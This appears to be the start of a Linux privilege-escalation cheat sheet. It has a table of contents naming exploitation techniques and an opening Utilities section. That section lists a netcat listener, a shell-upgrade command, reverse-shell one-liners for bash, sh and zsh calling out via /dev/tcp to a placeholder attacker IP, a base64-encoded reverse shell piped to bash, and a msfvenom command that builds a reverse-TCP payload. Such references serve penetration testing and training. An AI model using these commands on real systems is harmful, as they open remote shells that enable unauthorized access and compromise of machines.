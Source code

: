 # Linux privilege escalation
* [Utilities](#utilities)
    * [Shell stabilization and interactivity](#shell-stabilization-and-interactivity)
    * [Useful reverse shells](#useful-reverse-shells)
    * [Port tunneling](#port-tunneling)
    * [Copy files from/to the target](#copy-files-fromto-the-target)
* [Autoenumeration _(LinPEAS)_](#autoenumeration-linpeas)
* [Monitoring processes _(PSPY)_](#monitoring-processes-pspy)
* [Autoenumeration _(Linux Smart Enumeration)_](#autoenumeration-linux-smart-enumeration)
* [Linux Exploit Suggester](#linux-exploit-suggester)
* [Manual enumeration](#manual-enumeration)
    * [System](#system)
    * [Users and groups](#users-and-groups)
    * [Apps and services](#apps-and-services)
    * [Network](#network)
    * [Files and folders](#files-and-folders)
* [Possible escalation vectors in programs](#possible-escalation-vectors-in-programs)
* [Compiling exploits and tools](#compiling-exploits-and-tools)
* [Readable /etc/shadow exploit](#readable-etcshadow-exploit)
* [Writable /etc/passwd or /etc/shadow exploit](#writable-etcpasswd-or-etcshadow-exploit)
* [Exploiting wildcards](#exploiting-wildcards)
* [Modifying `$PATH` for SUID/SUDO programs](#modifying-path-for-suidsudo-programs)
* [Exploiting capabilities](#exploiting-capabilities)
* [Python library hijacking](#python-library-hijacking)
* [`LD_PRELOAD` exploit](#ld_preload-exploit)
* [`LD_LIBRARY_PATH` exploit](#ld_library_path-exploit)
* [Compiling a shared library running bash shell](#compiling-a-shared-library-running-bash-shell)
* [Compiling a service running bash shell](#compiling-a-service-running-bash-shell)
* [Permissions modification in NFS](#permissions-modification-in-nfs)

## Utilities
### Shell stabilization and interactivity
- Listen to reverse shell:
```bash
rlwrap nc -lvnp 443
```
- Upgrade the shell:
```bash
python -c 'import pty;pty.spawn("/bin/bash")' # Explicit python version may be required.
```

### Useful reverse shells
- Reverse shell oneliners:
```bash
bash -i >& /dev/tcp/<ip>/443 0>&1 # bash
bash -c "bash -i >& /dev/tcp/<ip>/443 0>&1" # sh or dash
zsh -c 'zmodload zsh/net/tcp && ztcp <ip> 443 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY' # zsh
```
- Reverse shell encoded oneliner:
```bash
echo "bash -c 'bash -i >& /dev/tcp/<ip>/443 0>&1'" | base64
echo '<payload>' | base64 --decode | bash
```
- TCP reverse shell executable:
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=443 -f elf > shell.elf
```
